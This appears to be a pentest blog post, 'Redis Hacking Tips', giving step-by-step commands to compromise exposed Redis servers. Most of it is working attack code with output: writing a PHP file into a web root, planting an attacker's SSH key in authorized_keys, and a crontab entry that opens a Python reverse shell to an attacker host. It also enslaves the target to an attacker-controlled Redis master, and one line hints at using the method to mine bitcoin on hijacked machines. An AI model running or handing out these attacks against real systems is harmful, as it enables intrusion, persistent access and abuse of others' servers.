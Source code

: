 ```yaml
---
layout:     post
title:      "Redis Hacking Tips"
date:       2017-02-09
categories: [Pentest, Database]

---
```


### Get Webshell

​	You must know the physical path of the Web site 

```Bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​	If the webshell access exception, you can empty the database after backup and try again, remember to restore the database

### Get SSH--Crackit

1. Generate a ssh public-private key pair on your pc: **ssh-keygen -t rsa**

2. Write the public key to a file : **(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

3. Import the file into redis : **cat foo.txt \| redis-cli -h 10.85.0.52 -x set crackit**

4. Save the public key to the authorized_keys file on redis server : 

   ```Bash
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/test/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : **ssh -i id_rsa test@10.85.0.52**


### Get Reverse Shell—Crontab

```Bash
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

> The above command for Ubuntu, Centos need to be adjusted to：
>
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Master-Slave Moudle

​	The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```








